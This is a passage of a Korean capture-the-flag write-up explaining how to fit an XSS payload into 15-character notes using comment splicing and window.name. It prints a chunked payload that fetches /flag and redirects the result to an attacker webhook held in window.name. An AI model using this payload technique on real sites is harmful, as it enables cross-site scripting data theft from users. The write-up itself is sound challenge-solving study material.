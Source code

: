![alt text](image-3.png)

그러면 문제는 저걸 사용해서 xss구문을 짜는건데...
지금 note에는 15문자 제한이 걸려있다.
때문에 여러번 집어넣는데 중간중간`,`가 포함되기에 이를 `/* */` 주석으로 무시해줘야 한다.

또 문제는 페이로드를 짜보면 알겠지만 /flag에 post요청하고 내 서버로 그 값을 전달하기에는 너무 길다.

때문에, 이를 window.name으로 줄였다.

window.name은 페이지 이동을 해도 값이 유지되는 값이다.(ex. fetch, location.href)

그래서 먼저

1. window.name에 flag받을 webhook 주소를 넣고
2. window.name으로 flag를 쏘는 코드를 note에다가 적은 다음
3. window.location으로 해당 문제 url로 이동시키게 했다.

대충 1번은

```
 const notes = [
      "$`</script>$`/*",
      "*/1;fetch(/*",
      '*/"/flag"/*',
      "*/,{method:/*",
      '*/"post"})./*',
      "*/then(_=>_./*",
      "*/text())./*",
      "*/then(_=>{/*",
      "*/location=/*",
      "*/name+_})//",
    ];

```
